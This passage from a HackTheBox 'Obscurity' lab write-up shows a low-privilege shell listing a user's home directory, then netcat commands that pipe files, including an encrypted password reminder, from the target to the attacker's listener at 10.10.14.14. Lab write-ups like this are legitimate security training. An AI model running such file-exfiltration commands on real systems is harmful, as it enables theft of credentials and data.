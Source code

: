 ![exploit on obscurity](../../../../assets/images/hackthebox/obscurity/1_obscurity_exploit.png)

Ok, a low-priv shell. Time to move on into the home directory.

## user

```bash
www-data@obscure:/home/robert$ ls -la
ls -la
total 60
drwxr-xr-x 7 robert robert 4096 Dec  2 09:53 .
drwxr-xr-x 3 root   root   4096 Sep 24  2019 ..
lrwxrwxrwx 1 robert robert    9 Sep 28  2019 .bash_history -> /dev/null
-rw-r--r-- 1 robert robert  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 robert robert 3771 Apr  4  2018 .bashrc
drwxr-xr-x 2 root   root   4096 Dec  2 09:47 BetterSSH
drwx------ 2 robert robert 4096 Oct  3  2019 .cache
-rw-rw-r-- 1 robert robert   94 Sep 26  2019 check.txt
drwxr-x--- 3 robert robert 4096 Dec  2 09:53 .config
drwx------ 3 robert robert 4096 Oct  3  2019 .gnupg
drwxrwxr-x 3 robert robert 4096 Oct  3  2019 .local
-rw-rw-r-- 1 robert robert  185 Oct  4  2019 out.txt
-rw-rw-r-- 1 robert robert   27 Oct  4  2019 passwordreminder.txt
-rw-r--r-- 1 robert robert  807 Apr  4  2018 .profile
-rwxrwxr-x 1 robert robert 2514 Oct  4  2019 SuperSecureCrypt.py
-rwx------ 1 robert robert   33 Sep 25  2019 user.txt
```

The user robert encrypted his passwordreminder.txt with the SuperSecureCrypt.py script and a unknown password.

So I need to experiment a bit with these files in the directory, but with a low-priv shell it's a pain in the ...; :)

But this is a nice situation to transfer files via netcat, so I downloaded all necessary files from the server to my local machine.

### file transfer via nc
For my work I need SuperSecureCrypt.py, out.txt, passwordreminder.txt and check.txt

On my machine
```bash
kali@kali:~$ nc -lp 1338 -q 1 > SuperSecureCrypt.py < /dev/null
kali@kali:~$ nc -lp 1338 -q 1 > out.txt < /dev/null
kali@kali:~$ nc -lp 1338 -q 1 > passwordreminder.txt < /dev/null
kali@kali:~$ nc -lp 1338 -q 1 > check.txt < /dev/null
```

On obscurity.htb
```bash
www-data@obscure:/home/robert$ cat SuperSecureCrypt.py | nc 10.10.14.14 1338
cat SuperSecureCrypt.py | nc 10.10.14.14 1338
www-data@obscure:/home/robert$ cat out.txt | nc 10.10.14.14 1338
cat out.txt | nc 10.10.14.14 1338
www-data@obscure:/home/robert$ cat passwordreminder.txt | nc 10.10.14.14 1338
cat passwordreminder.txt | nc 10.10.14.14 1338
www-data@obscure:/home/robert$ cat check.txt | nc 10.10.14.14 1338
cat check.txt | nc 10.10.14.14 1338
```
